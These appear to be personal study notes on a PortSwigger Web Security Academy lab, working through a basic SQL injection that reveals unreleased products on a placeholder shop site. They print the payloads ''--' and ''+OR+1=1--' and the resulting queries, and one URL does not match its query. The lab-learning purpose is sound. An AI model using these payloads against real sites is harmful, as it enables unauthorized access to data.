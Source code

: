 https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data



To test whether is interacting with a DB we could send a single qoute
![[Pasted image 20241107110813.png]]
And this error confirms that it might be vulnerable, because there's a SQL input probably non-sanitized.
In this lab this url
```url
https://insecure-website.com/products?category=Gifts
```
Is doing this query to the backend data base
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This SQL query asks the database to return:

- all details (`*`)
- from the `products` table
- where the `category` is `Gifts`
- and `released` is `1`.
As the application don't implement any type of securizyng we could send the paylo `'--`
```url
https://insecure-website.com/products?category=Gifts'--
```
which result in the following query
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
as you see we are closing the `Gifts` with the single quote and use the `--` to commit the rest of the query.
Now to display even the not released ones you could use another payloads, like `+OR+1=1--`
```url
https://insecure-website.com/products?category=Gifts'--+OR+1=1--
```
with the following payload
```sql
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
```
In URLs, spaces are typically replaced by `%20` (URL-encoded space) or `+` (URL-encoded space alternative in certain contexts, especially in query parameters), so let's use `'+OR+1=1--` in the url